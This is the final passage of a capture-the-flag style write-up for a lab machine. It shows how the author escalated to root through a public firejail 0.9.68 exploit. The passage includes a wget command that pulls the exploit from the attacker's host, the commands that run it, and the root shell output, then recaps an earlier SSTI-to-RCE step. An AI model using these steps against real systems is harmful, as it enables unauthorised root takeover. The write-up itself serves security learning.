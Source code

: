 Upon running `firejail --version`, we identified that the version of `firejail` in use was `0.9.68`. While researching, we discovered a [blog post](https://www.openwall.com/lists/oss-security/2022/06/08/10?source=post_page-----55cdb93e53c8--------------------------------) discussing a `local root exploit` vulnerability in `firejail`. The blog post also included a publicly available exploit.

```shell
atlas@sandworm:/tmp$ wget 'http://10.10.14.75/firejail_exploit.py'
--2023-11-04 16:03:25--  http://10.10.14.75/firejail_exploit.py
Connecting to 10.10.14.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8649 (8.4K) [text/x-python]
Saving to: ‘firejail_exploit.py’

firejail_exploit.py                             100%[====================================================================================================>]   8.45K  --.-KB/s    in 0.001s  

2023-11-04 16:03:25 (6.09 MB/s) - ‘firejail_exploit.py’ saved [8649/8649]
```

We proceeded to download the exploit onto the target machine using the `wget`.

```shell
atlas@sandworm:/tmp$ python3 firejail_exploit.py 
atlas@sandworm:/tmp$ python3 firejail_exploit.py 
You can now run 'firejail --join=1808438' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

After transferring the exploit, we executed it with `python3`.

```shell
atlas@sandworm:/opt/tipnet$ firejail --join=1808438
changing root to /proc/1808438/root
Warning: cleaning all supplementary groups
Child process initialized in 6.12 ms
atlas@sandworm:/opt/tipnet$ su - root
root@sandworm:~# 
root@sandworm:~# id; whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@sandworm:~# 
```

The exploit provided instructions to run the above commands in another terminal.

In this way, we successfully escalated our privileges to root.

# CONCLUSION

In conclusion, our journey began with the exploitation of a **Server-Side Template Injection** (`SSTI`) vulnerability in a `PGP` signed message, which we cleverly turned into **Remote Code Execution** (`RCE`).

Subsequently, we encountered the confinements of a `firejail` sandboxed environment, requiring us to navigate carefully within these constraints.
